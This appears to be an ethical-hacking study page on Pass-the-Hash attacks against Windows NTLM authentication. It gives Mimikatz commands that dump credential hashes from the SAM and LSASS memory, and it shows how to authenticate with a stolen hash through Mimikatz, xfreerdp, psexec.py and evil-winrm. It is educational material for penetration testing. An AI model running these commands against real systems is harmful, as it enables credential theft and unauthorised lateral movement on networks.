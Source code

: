 # Pass-the-Hash (NTLM)

Refer to the following resources for more information on the relevant topics:

1. &#x20;[pass-the-hash](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz/pass-the-hash) attack.
2. [NetNTLM](https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/authentication-methods/netntlm) authentication

The Pass-the-Hash (PtH) method relies on the way the NTLM authentication process works, where a user can authenticate to a Windows domain configured to use NTLM authentication just by merely knowing the NTLM hash. Thus, we won't even have to crack the NTLM hashes as we will not require the actual password to authenticate successfully.

Mimikatz provides 2 methods to retrieve the NTML hashes:

a. Local SAM&#x20;

b. LSASS memory

Ensure to perform the necessary actions before we attempt to harvest the credentials. Refer to the [following](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz) for more information on each module.

```
mimikatz # privilege::debug
mimikatz # token::elevate
```

### (1) Local SAM

This method will only allow us to retrieve hashes from the local users on the machine only (No domain user's hashes).

{% code overflow="wrap" %}
```
mimikatz # lsadump::sam
```
{% endcode %}

Eg. We have found the username `test.user` with the NTLM hash value `1b2axxxx` :

```
mimikatz # lsadump::sam

RID  : xxxx
User : jarrett.gxz
  Hash NTLM: 1b2axxxx
```

### (2) LSASS memory

This method will allow us to retrieve any NTLM hashes for local users and any domain user that has recently logged onto the machine.

```
mimikatz # sekurlsa::msv
```

Eg. We have found the username `jarrett.gxz` in the domain `test.domain`, with the NTLM hash value `1b2axxxx` :

```
mimikatz # sekurlsa::msv

Authentication Id : xxxx
Session           : xxxx 
User Name         : jarrett.gxz
Domain            : TEST
...
        msv :
         [00000003] Primary
         * Username : test.user
         * Domain   : test.domain
         * NTLM     : 1b2axxxx
```

### Perform Pass-the-Hash

{% code overflow="wrap" %}
```
mimikatz # token::revert 

mimikatz # sekurlsa::pth /user:jarrett.goh /domain:test.domain /ntlm:1b2axxxx /run:"<payload>"
```
{% endcode %}

> Note we first have to run `token::revert` to revert back to our original token privileges, as trying to pass-the-hash with an elevated token won't work

We can view the `sekurlsa::pth` module command as equivalent to using the [`runas /netonly`](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/enumeration/runas.exe) command with a hash instead of a password.

{% embed url="https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz/sekurlsa-pth" %}

### PtH with Linux

Several tools exists in Linux, with built-in support to perform PtH. The following outlines a few:

1. `xfreerdp`

{% embed url="https://www.kali.org/blog/passing-hash-remote-desktop/" %}

```sh
$ xfreerdp /v:<target_ip> /u:DOMAIN\\<username> /pth:NTLM_HASH
```

2. `psexec.py`

{% embed url="https://www.kali.org/tools/impacket-scripts/#impacket-psexec" %}

```sh
$ psexec.py -hashes NTLM_HASH domain/<username>@<target>
```

3. `evil-winrm`

{% embed url="https://www.kali.org/tools/evil-winrm/" %}

```sh
$ evil-winrm -i <target> -u <username> -H NTLM_HASH
```

